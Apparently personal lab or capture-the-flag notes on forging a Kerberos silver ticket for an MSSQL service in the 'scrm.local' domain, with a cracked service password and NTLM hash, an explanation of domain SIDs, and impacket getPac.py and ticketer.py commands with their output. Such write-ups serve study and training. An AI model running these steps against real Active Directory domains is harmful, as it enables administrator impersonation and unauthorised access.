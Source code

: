 
silver ticket requirs :

| **Requires** | NTLM hash of service account |
| ------------ | ---------------------------- |

---

-in google : to ntlm or using nthash.py
-i already have the password
```
b999a16500b87d17ec7f2e2a68778f05
```

```
ServicePrincipalName:

MSSQLSvc/dc1.scrm.local:1433            
MSSQLSvc/dc1.scrm.local                     
sqlsvc:Pegasus60:MSSQLSvc/dc1.scrm.local:b999a16500b87d17ec7f2e2a68778f05
```

---
-we need domain sid == security identifier
-domain sid is prefix to user sid

---

example:
```
`S-1-5-21-1234567890-987654321-1122334455`
`S-1-5-21-1234567890-987654321-1122334455-1001`
```
- The first part (`S-1-5-21`) specifies that this is a **domain SID**.
- The rest (`1234567890-987654321-1122334455`) is a unique identifier for your domain.

- The `S-1-5-21-1234567890-987654321-1122334455` part is the **Domain SID** (the same as the domain SID above).
- The `1001` part is the **RID**, which is unique to the user or group (in this case, it would refer to a specific user or group).



---
-impacket getpac.py <> `PAC (Privilege Attribute Certificate)`
```bash

┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson


Domain SID: S-1-5-21-2743207045-1827831105-2542523200
```

---
-create silver ticket
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo python3 ticketer.py -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local
[sudo] password for pwn: 


[*] Saving ticket in Administrator.ccache

```
